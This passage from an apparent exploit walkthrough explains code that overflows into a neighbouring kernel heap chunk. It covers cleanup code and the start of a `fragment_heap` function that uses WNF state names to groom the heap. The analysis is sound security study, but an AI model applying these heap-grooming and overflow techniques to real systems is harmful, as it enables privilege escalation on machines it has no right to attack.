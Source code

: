 Now that we have examined each and every function call in `overflow_chunk`, let's now look at the cleanup:

```cpp
puts("[+] Overflowed into neighbouring chunk");

out:
if (file && file != INVALID_HANDLE_VALUE)
    CloseHandle(file);

if (fetched_data)
    free(fetched_data);

if (vuln_selector)
    free(vuln_selector);

if (payload)
    free(payload);

return status;
```

We see that we close the file handle and free the memory regions that were used in `overflow_chunk`. 

### The fragment_heap Function

We start our analysis of the `fragment_heap` function by reviewing the function arguments and return type: 

```cpp
NTSTATUS fragment_heap(_Inout_ PWNF_STATE_NAME statenames, _In_ UINT64 count)
```

The `fragment_heap` function returned an `NTSTATUS` value depending on the success of the function's execution. The first argument, `statenames`, is a modifiable pointer of type `PWNF_STATE_NAME`, whose type definition is below: 

```cpp
typedef struct _WNF_STATE_NAME
{
    ULONG Data[2];
} WNF_STATE_NAME, *PWNF_STATE_NAME, *PCWNF_STATE_NAME;
```

Next, the variable `count` is a read-only unsigned 64-bit integer which specifies the amount of holes created of size 0xc0 in the heap. Let's now look at the two variable definitions:

```cpp
NTSTATUS    status = STATUS_SUCCESS;
UINT64      counter = 0;
```

First, we see that `status` is of type `NTSTATUS`, the same as the return value for `fragment_heap` and is initialized with the value `STATUS_SUCCESS`. Finally, we have the unsigned 64-bit integer `counter` which is initially set to 0. 

